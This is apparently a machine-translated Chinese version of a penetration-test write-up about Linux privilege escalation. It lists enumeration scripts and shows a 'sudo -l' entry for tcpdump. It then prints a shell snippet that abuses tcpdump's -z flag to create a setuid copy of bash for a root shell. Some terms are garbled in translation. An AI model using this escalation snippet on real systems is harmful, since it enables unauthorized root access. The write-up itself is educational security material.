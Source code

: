 # 为什么您应该总是扫描 UDP 端口(2/2)

> 原文：<https://infosecwriteups.com/why-you-should-always-scan-udp-part-2-2-42050fb136d8?source=collection_archive---------1----------------------->

我们完成了第一部分，获得了在新网络中访问主机的特权。后来，我们想获得特权继续。我们是这样做的。

# 提升权限

多年来，我一直在 Linux 中使用这两个脚本，每种语言一个。

*   [https://github . com/rebootuser/LinEnum/blob/master/LinEnum . sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)(bash)
*   https://github.com/sleventyeleven/linuxprivchecker[(巨蟒)](https://github.com/sleventyeleven/linuxprivchecker)

然而，最近我一直在用我非常喜欢的豌豆。它是用 bash 编写的，也有它的 Windows 版本，可以在。exe (C#代码)和。蝙蝠

```
[https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)
```

由于权限提升是一个非常广泛的话题，所以我不会详细介绍所有的技巧，但是我可以列出一些资源来帮助您入门:

 [## 权限提升- Linux

### 一旦我们有了一个有限的 shell，提升 shell 特权是很有用的。这样会更容易隐藏，阅读…

sushant747.gitbooks.io](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html) [](https://payatu.com/guide-linux-privilege-escalation) [## Linux 权限提升指南

### 什么是特权升级？大多数计算机系统是为多用户使用而设计的。特权意味着什么…

payatu.com](https://payatu.com/guide-linux-privilege-escalation) 

关于我们的 pentest，我们做的第一件事是

```
sudo -l
```

这允许您查看当前用户所有可用的 sudo 命令。输出包括一个相关条目:

```
(root) NOPASSWD: /usr/sbin/tcpdump
```

这用于嗅探网络流量，通常对调试应用程序开发人员很有用。由于它的-z 标志，Tcpdump 在 sudo 列表中是一个危险的二进制文件。它允许您指定在捕获结束时运行的脚本。您可以创建一个恶意脚本，捕获 0 个数据包，然后让它自动运行([https://gtfobins.github.io/gtfobins/tcpdump/](https://gtfobins.github.io/gtfobins/tcpdump/))

我们尝试了以下利用方式，但没有成功。

```
a=/tmp/_$$
b=/tmp/$$
cat >$a <<EOF
cp /bin/bash $b
chmod u+sx $b
EOF
chmod +x $a
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $a;
sleep 1
$b -p
```
